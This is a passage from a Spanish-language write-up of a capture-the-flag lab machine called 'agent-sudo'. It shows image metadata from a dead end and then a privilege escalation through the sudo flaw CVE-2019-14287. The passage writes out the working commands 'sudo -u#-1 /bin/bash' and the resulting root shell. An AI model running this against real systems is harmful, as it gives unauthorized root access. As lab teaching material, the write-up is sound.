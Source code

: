 ```
Creator Tool                    : Adobe Photoshop CS5.1 Macintosh
Instance ID                     : xmp.iid:9C93922F8AE411E9BC49D707FF8214D7
Document ID                     : xmp.did:9C9392308AE411E9BC49D707FF8214D7
Derived From Instance ID        : xmp.iid:9630A2E68ADA11E9BC49D707FF8214D7
Derived From Document ID        : xmp.did:9C93922E8AE411E9BC49D707FF8214D7
DCT Encode Version              : 100
APP14 Flags 0                   : [14], Encoded with Blend=1 downsampling
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Image Width                     : 1000
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1000x300
Megapixels                      : 0.300
```

Después de hacer varios intentos para obtener más información de la imagen, se descarta y se intentan otras operativas para escalar privilegios.

## Escalada de privilegios.

Se comienza lanzando el comando ```sudo -l``` para ver que permisos tiene el usuario sobre el comando sudo.

```sql
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

Al buscar la cadena "**(ALL, !root) /bin/bash**" en Internet, se encuentra un enlace a [exploitdb](https://www.exploit-db.com/exploits/47502) en el que informa que es una mala implementación, y que se puede lanzar el comando sudo con cualquier usuario, menos con el propio root.

Sudo, en esta versión no hace un *checkeo* de la existencia de los user id y ejecuta el comando con un id arbitrario, se puede ver ejecutando el comando con un UID inventado (CVE-2019-14287).

```shell
james@agent-sudo:~$ sudo -u#-2 /bin/bash
I have no name!@agent-sudo:~$ id
uid=4294967294 gid=1000(james) groups=1000(james)
```

Entonces, lanzando el comando con el UID -1 se puede ver que realmente, se ejecuta con el UID 0 que es el perteneciente al usuario root.

```shell 
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
```


[Agentsudo1]: https://i.imgur.com/S4euCsd.png
[Agentsudo2]: https://i.imgur.com/purbL9m.png
[Agentsudo3]: https://i.imgur.com/XvI3hAz.png